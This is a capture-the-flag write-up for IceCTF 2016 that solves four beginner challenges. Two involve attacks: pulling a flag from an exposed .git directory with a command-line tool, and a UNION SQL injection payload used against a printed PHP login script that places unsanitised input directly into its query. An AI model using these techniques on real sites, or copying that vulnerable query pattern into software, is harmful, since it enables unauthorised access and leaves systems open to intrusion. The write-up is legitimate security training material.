




# IceCTF 2016 writeups

As most of the challenges was trivial to resolve (especially from Stage 1, Stage 2 and some from Stage 3) I put here just some example challenges I had to spend more than 30 seconds to get the flag :)

--
### Exposed (Web, 60pts)

#### Challenge

John is pretty happy with himself, he just made his first website! He used all the hip and cool systems, like NginX, PHP and Git! Everyone is so happy for him, but can you get him to give you the flag? (http://exposed.vuln.icec.tf/)

#### Solution

In challenge description there is a _Git_ source version control mentioned. 

Couple of weeks ago I did some research about how to extract informations based on revealed Git logs (https://github.com/bl4de/research/tree/master/hidden_directories_leaks#git)

Also I've created simple tool to do this (and currently I am still developing one - you can take  a look at it here: https://github.com/bl4de/security-tools/tree/master/diggit)

So it was quite easy to find the right revision where the flag was saved.

The log file located under http://exposed.vuln.icec.tf/.git/logs/HEAD contains history of commits:

```
0000000000000000000000000000000000000000 fd2ac4d5260ee06f9a0e5f4808bf3862e2065fb8 James Sigurðarson <jamiees2@gmail.com> 1470863392 +0000	commit (initial): initial commit
fd2ac4d5260ee06f9a0e5f4808bf3862e2065fb8 90c2cd27cabb8ec7f55941ecee004558a070ccde James Sigurðarson <jamiees2@gmail.com> 1470863541 +0000	commit: gitignore
90c2cd27cabb8ec7f55941ecee004558a070ccde 971c67fd8ed67c3986844f627917c19c151d00bf James Sigurðarson <jamiees2@gmail.com> 1470863629 +0000	commit: added initial app
971c67fd8ed67c3986844f627917c19c151d00bf 1f601ea8a09052234b53e2cc1bb12e4ceacbf8a6 James Sigurðarson <jamiees2@gmail.com> 1470863643 +0000	commit (amend): added initial app
1f601ea8a09052234b53e2cc1bb12e4ceacbf8a6 ec95d11bb37f00fb8e17f6bdbb800124b79e3c32 James Sigurðarson <jamiees2@gmail.com> 1470863652 +0000	commit (amend): added initial app
ec95d11bb37f00fb8e17f6bdbb800124b79e3c32 4de7e6fbbba6f94bc146b33bbfe6c0155f3c2fd4 James Sigurðarson <jamiees2@gmail.com> 1470864424 +0000	commit: added materialize and centered page
4de7e6fbbba6f94bc146b33bbfe6c0155f3c2fd4 f521418118a088ef00fef0c3e199d30d6c7e96a5 James Sigurðarson <jamiees2@gmail.com> 1470864477 +0000	commit: enlarged text
f521418118a088ef00fef0c3e199d30d6c7e96a5 f5674cbaacd842cfacb9f825c29f7f3e5150c7ef James Sigurðarson <jamiees2@gmail.com> 1470865026 +0000	commit (amend): enlarged text
f5674cbaacd842cfacb9f825c29f7f3e5150c7ef ebe74d8641b4d8b90c33d1deb69070476b0ef402 James Sigurðarson <jamiees2@gmail.com> 1470865059 +0000	commit: added colors
ebe74d8641b4d8b90c33d1deb69070476b0ef402 672c8f636b6db9c79412db177dcca75cde27c82b James Sigurðarson <jamiees2@gmail.com> 1470865083 +0000	commit (amend): added colors
672c8f636b6db9c79412db177dcca75cde27c82b 60756b184c2d6b8f0247c152d8549562bc14d2d9 James Sigurðarson <jamiees2@gmail.com> 1470865235 +0000	commit: test flag
60756b184c2d6b8f0247c152d8549562bc14d2d9 adf0ebdff8a972f3f6158304323feba4aa1fd482 James Sigurðarson <jamiees2@gmail.com> 1470865293 +0000	commit: flag file
adf0ebdff8a972f3f6158304323feba4aa1fd482 32b31838b757a00f2e296ac198ca7d9cb930e644 James Sigurðarson <jamiees2@gmail.com> 1470865445 +0000	commit (amend): flag file
32b31838b757a00f2e296ac198ca7d9cb930e644 584ae8349fe51e2cb25e11347003c11e92f88c74 James Sigurðarson <jamiees2@gmail.com> 1470865454 +0000	commit (amend): flag route
584ae8349fe51e2cb25e11347003c11e92f88c74 5ea13398f975b53ff30b7ea162b2ec6897a48c68 James Sigurðarson <jamiees2@gmail.com> 1470865511 +0000	commit: remove flag
5ea13398f975b53ff30b7ea162b2ec6897a48c68 4183a0cd7143899e4a5d34f01ce58317fd68921e James Sigurðarson <jamiees2@gmail.com> 1470865669 +0000	commit: add robots.txt
4183a0cd7143899e4a5d34f01ce58317fd68921e e9f1db96f8b67eced8183d2d523e4ea76c008b83 IceCTF <icectf@icec.tf> 1470953021 +0000	commit (amend): add robots.txt
e9f1db96f8b67eced8183d2d523e4ea76c008b83 590a15d32d9a494be5830f61c5c180ddef86e43e IceCTF <icectf@icec.tf> 1470953038 +0000	commit (amend): add robots.txt
590a15d32d9a494be5830f61c5c180ddef86e43e 1746e11be489319bd8900318874b68304eb05288 IceCTF <icectf@icec.tf> 1470953038 +0000	filter-branch: rewrite

```

Revision _f5674cbaacd842cfacb9f825c29f7f3e5150c7ef_ was the right one. Using my _diggit_ tool I could easily read the flag:

```
$ ./diggit.py -u http://exposed.vuln.icec.tf -t /Users/bl4de/hacking/ctf/2016/IceCTF/web60 -r true -o f5674cbaacd842cfacb9f825c29f7f3e5150c7ef
```

And here it is:



--
### Miners (Web, 65pts)

#### Challenge

The miners website has been working on adding a login portal so that all miners can get the flag, but they haven't made any accounts! However, your boss demands the flag now! Can you get in anyway? (http://miners.vuln.icec.tf/) 

#### Solution

There was a simple screen with login form (username and password), also we've got source code of _login.php_ file:

```php
<?php
include "config.php";
$con = mysqli_connect($MYSQL_HOST, $MYSQL_USER, $MYSQL_PASS, $MYSQL_DB);
$username = $_POST["username"];
$password = $_POST["password"];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) !== 1) {
  echo "<h1>Login failed.</h1>";
} else {
  echo "<h1>Logged in!</h1>";
  echo "<p>Your flag is: $FLAG</p>";
}

?>
```

There's SQL Injection, because username and password are not sanitized in any way before they are used in SQL query. But there's no record in database and to be logged in there's exactly one row needed.

I used username field and simple UNION injection with three columns (I had to add one dummy column, I suppose there was also some ID column in _users_ table):

```
' union select 1,2,version();-- 
```

So executed query was:

```
"SELECT * FROM users WHERE username='' union select 1,2,version();--
```

This query returned exactly one row, so I got the flag:



--
### Scavenger Hunt (Misc, 50pts)

#### Challenge
There is a flag hidden somewhere on our website, do you think you can find it? Good luck! 


#### Solution
I've started from looking at the source code in Chrome DevTools, but after a while I've realized there's a link to GitHub repository of IceCTF website. 

Quick search for _"IceCTF{"_ revealed flag hidden in _alt_ attribute of one of the &lt;img> tag in _sponsors.html_ file:



Link to file: https://github.com/IceCTF/ctf-landing/blob/2ec1023adfc64daf69a74a89ebc34bb2a19842ef/icectf/templates/sponsors.html


--
### Hidden in Plain Sight (RE, 45pts)

#### Challenge

Make sure you take a real close look at it, it should be right there! /home/plain_sight/ or download it here [link]

#### Solution


We got Linux ELF executable file and there's a flag hidden somewhere.

_strings_ does not return anything interesting, so I decided to take a look at the source code in Hopper Disassembler. As Reverse Engineering is not my very strong side, I was trying to find something obvious, and I was lucky:



There's a list of _mov al, 0xXX_ instructions, obviously contains  flag character by character (all flags start from 'IceCTF', so I assumed that this had to be flag as values are from ASCII codes for  a-z, A-Z, { and } ). Simple Python script allows me to get the right solution:

```Python
#!/usr/bin/python

f = """
0804851b         mov        al, 0x49
0804851d         mov        al, 0x63
0804851f         mov        al, 0x65
08048521         mov        al, 0x43
08048523         mov        al, 0x54
08048525         mov        al, 0x46
08048527         mov        al, 0x7b
08048529         mov        al, 0x6c
0804852b         mov        al, 0x6f
0804852d         mov        al, 0x6f
0804852f         mov        al, 0x6b
08048531         mov        al, 0x5f
08048533         mov        al, 0x6d
08048535         mov        al, 0x6f
08048537         mov        al, 0x6d
08048539         mov        al, 0x5f
0804853b         mov        al, 0x49
0804853d         mov        al, 0x5f
0804853f         mov        al, 0x66
08048541         mov        al, 0x6f
08048543         mov        al, 0x75
08048545         mov        al, 0x6e
08048547         mov        al, 0x64
08048549         mov        al, 0x5f
0804854b         mov        al, 0x69
0804854d         mov        al, 0x74
0804854f         mov        al, 0x7d
"""

flag = ""
for c in f.split("\n"):
    flag = flag + chr(int(c[-4:],16)) if c != "" else flag
            
print flag
```

And the flag:

```
bl4de:~/hacking/ctf/2016/IceCTF $ ./re45.py
IceCTF{look_mom_I_found_it}
```

--

